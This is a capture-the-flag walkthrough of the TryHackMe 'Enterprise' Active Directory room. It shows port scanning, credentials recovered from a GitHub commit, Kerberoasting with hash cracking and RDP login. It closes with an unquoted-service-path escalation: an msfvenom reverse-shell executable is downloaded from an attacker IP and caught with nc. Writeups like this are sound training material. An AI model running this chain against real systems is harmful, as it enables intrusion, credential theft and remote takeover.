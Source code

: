 ```yaml
---
title: Enterprise Tryhackme Writeup
published: true
---
```


Today I bring you the writeup of [Enterprise](https://tryhackme.com/room/enterprise), a tryhackme machine focused on Active Directory exploitation, here we go!

First we start with a port scan to see which ports are open.

```shell
nmap -p- --min-rate 5000 IP -Pn
```

With -p- we indicate that we want it to look at all ports, -Pn is not to make ping requests since it is a windows and blocks them and the --min-rate 5000 to do it very fast.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/1.png)

Now that we know the ports, let's scan them deeply to see versions and so on.

```shell
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,7990,9389,47001,49664,49665,49666,49668,49669,49670,49672,49676,49701,49710,49833 --min-rate 5000 IP -Pn
```

With -sC we indicate that we want to run the default nmap scripts and -sV to get the service versions.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/2.png)

Now, let's add to /etc/hosts the domain name.

```shell
IP lab.enterprise.thm
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/7.png)

After a long time listing the different services of the machine we found this web where we are told that they are passed to [github](https://github.com/Enterprise-THM), let's check this github.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/3.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/4.png)

We see a [person](https://github.com/Nik-enterprise-dev) on that github, let's take a look at theirs.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/5.png)

It has a repository, if we look at the [history](https://github.com/Nik-enterprise-dev/mgmtScript.ps1/commit/bc40c9f237bfbe7be7181e82bebe7c0087eb7ed8) of that repo we find a username and password.

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/6.png)

With the information we have and after listing several services with that name and password, we are going to use the impacket module GetUsersSPNs

This module will try to find Service Principal Names that are associated with normal user account.
#   Since normal account's password tend to be shorter than machine accounts, and knowing that a TGS request
#   will encrypt the ticket with the account the SPN is running under, this could be used for an offline
#   bruteforcing attack of the SPNs account NTLM hash if we can gather valid TGS for those SPNs.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi!
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/8.png)

We have found a service called bitbucket, we are going to take its NTLM hash and then crack it.

```shell
GetUserSPNs.py lab.enterprise.thm/nik:ToastyBoi! -request
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/9.png)

Let's save that hash and use hashcat to crack it.

```shell
hashcat -a 0 -m 13100 hash /home/m4luk0/wordlists/rockyou.txt
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/10.png)

Let's try to connect via RDP to the machine.

```shell
xfreerdp /u:bitbucket /p:littleredbucket /v:lab.enterprise.thm /dynamic-resolution
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/11.png)

If we enumerate the machine, we can find the [unquoted service](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#unquoted-service-paths) vulnerability wich is based on the fact that when windows has to read a path with spaces, i.e. C:\Windows\Hello World\test.exe windows will execute hello.exe, world.exe and then it will enter the directory; then, if we create a malicious exe called hello.exe it will execute it before entering that directory.

In windows:

```shell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/12.png)

We see that there is a directory called Zero Tier One, we will exploit the vulnerability explained above, we will create on our machine a malicious exe that will send us a shell.

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe -o Zero.exe
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/13.png)

Now we are going to create a python server to pass it to windows.

```shell
python3 -m http.server
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/14.png)

Let's set the port to listen.

```shell
nc -lvp PORT
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/15.png)

In windows go to the folder and download the exe.

```shell
cd "C:\Program Files (x86)\Zero Tier"
wget http://10.8.155.220:8000/Zero.exe -o Zero.exe
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/16.png)

Now having everything ready we will only have to restart the service.

```shell
Start-Service -name "zerotieroneservice"
```

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/17.png)

![](https://raw.githubusercontent.com/M4luk0/m4luk0.github.io/master/images/Enterprise/18.png)

And so we would finish with this machine, thanks for reading.
